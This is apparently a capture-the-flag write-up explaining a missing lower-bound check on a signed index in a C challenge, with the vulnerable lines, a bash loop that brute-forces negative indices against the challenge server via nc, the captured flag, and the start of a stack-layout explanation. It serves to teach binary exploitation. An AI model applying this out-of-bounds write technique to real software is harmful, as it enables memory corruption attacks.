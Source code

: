 Depending on how much you know about C, you may be aware that an `int`eger encompasses all (mathematical) integers within the range `[-2**31, 2**31)`. When the resulting `opt`ion from `prompt()` is checked in this line:
```c
    if (opt >= humancount) puts("ERR: this log does not exist!");
```
There is no consideration for values of `opt` _smaller than_ any sensible value. So when `opt` is used to edit `humans[opt]`:
```c
    humans[opt] = cost;
```
`opt` can be any value in the range `[-2**31, humancount)`.

At this point, with knowledge of what the primary bug is, you may be inclined to use a braindead bruteforce "fuzzing" technique to get the challenge over with:
```bash
for i in `seq -10 0`
do  nc challs.sieberrsec.tech 51384 <<EOF &
2
$i
99999999
3
EOF
sleep 1; kill $(pgrep nc)
done
```
Which will eventually provide the flag:
```
> Which log do you want to edit? How much should this patient be charged? SieberrHealth has charged patient -2 $99999999!
1. add a human to the health log
2. edit individual health bill
3. kill all patients
> <----BEGINNING ACTION T5---->
IRS{g3n0c1d3_1s_b@d_0k@y}
```
You're free to call it quits at this point, but I advise you read on to understand how this works.

## ??? what just happened ???
From the output of bruteforcing, we know that setting
```c
opt = -2
```
and
```c
cost = 99999999
```
in
```c
humans[opt] = cost;
```
is enough to cause `humancount < 6000000` to become false.

This is where prior knowledge in binary exploitation is useful. When variables are defined in a C function... let's give this as an example:
```c
int main(){
    int v1;
    int v2;
    printf("stack addresses: v1 is at %p, v2 is at %p\n", &v1, &v2);
}
```
...these variables are stored sequentially on the program's [stack](https://en.wikipedia.org/wiki/Call_stack) (this is a pretty bad link; try googling for more information):
```bash
$ ./a.out 
stack addresses: v1 is at 0x7fffc5645c3c, v2 is at 0x7fffc5645c38
```